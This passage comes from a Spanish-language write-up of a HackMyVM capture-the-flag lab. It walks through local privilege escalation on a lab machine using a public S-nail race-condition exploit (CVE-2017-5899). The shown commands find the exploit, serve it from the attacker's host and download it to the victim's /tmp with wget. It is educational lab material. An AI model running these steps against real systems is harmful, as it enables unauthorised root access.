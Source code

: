 Haciendo uso de la herramienta **`searchsploit`** hemos encontrado un exploit que sirve para este binario, aunque es importante recalcar que solo sirve para la versión `14.8.16` o anterior, vamos a ver qué versión tiene el nuestro:

```sh
chad@gigachad:~$ s-nail -V
v14.8.6
```

¡Estupendo! Vemos que este exploit puede funcionar, vamos a copiarlo y a llevarlo a la máquina víctima:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/GigaChad/exploits]
└─# searchsploit -m multiple/local/47172.sh
  Exploit: S-nail < 14.8.16 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47172
     Path: /usr/share/exploitdb/exploits/multiple/local/47172.sh
    Codes: CVE-2017-5899
 Verified: False
File Type: POSIX shell script, ASCII text executable
Copied to: /root/Desktop/VMs/HMV/GigaChad/exploits/47172.sh
```

Ahora tenemos que montarnos un servidor `HTTP` con `Python` para llevarlo a la máquina:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/GigaChad/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por último tenemos que irnos a la máquina víctima y descarganos el exploit, en mi caso lo haré en la carpeta `/tmp/`{: .filepath }.

```sh
chad@gigachad:/tmp$ wget http://192.168.92.128/47172.sh
--2023-05-21 13:10:11--  http://192.168.92.128/47172.sh
Connecting to 192.168.92.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8479 (8.3K) [text/x-sh]
Saving to: ‘47172.sh’

47172.sh                      100%[=================================================>]   8.28K  --.-KB/s    in 0s

2023-05-22 13:10:11 (241 MB/s) - ‘47172.sh’ saved [8479/8479]
```

Una vez lo tengamos en la máquina víctima debemos darle permisos de ejecución:

```sh
chad@gigachad:/tmp$ chmod +x 47172.sh
```

Ahora podemos iniciarlo, pero a mí no me funcionó a la primera, por lo que tuve que crear un `loop` infinito. Esto es debido a que este exploit funciona con condiciones de carrera:
